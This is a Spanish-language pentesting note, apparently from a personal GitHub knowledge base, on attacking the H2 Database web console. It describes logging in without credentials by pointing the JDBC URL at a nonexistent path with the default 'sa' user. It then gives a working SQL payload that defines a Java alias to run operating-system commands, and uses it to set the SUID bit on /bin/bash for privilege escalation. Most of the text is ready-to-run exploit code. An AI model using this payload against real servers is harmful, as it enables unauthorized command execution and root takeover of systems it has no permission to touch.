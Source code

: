 Si tenemos acceso al panel de inicio de sesión de H2 Database, podemos correr queries sin una autenticación. Para ello, vamos a cambiar el parámetro _URL JDBC_ a una ruta que no exista y dejamos por defecto el usuario sa y sin password.

![image](https://github.com/SrMeirins/KnowledgeVault/assets/95763783/0ef41a98-6be2-4db4-a74b-8f3b29a4fce8)

Vamos a correr la siguiente Query, poniendo el comando que nos interese:

```mysql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('id')
```
![image](https://github.com/SrMeirins/KnowledgeVault/assets/95763783/1fca5030-afac-480c-93a6-2b360451bf56)

**Si H2 Database lo esta corriendo ROOT** --> La idea aquí sería darle privilegios SUID a /bin/bash para desde un usuario no privilegiado poder escalar privilegios.

```mysql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('chmod 4755 /bin/bash')
```
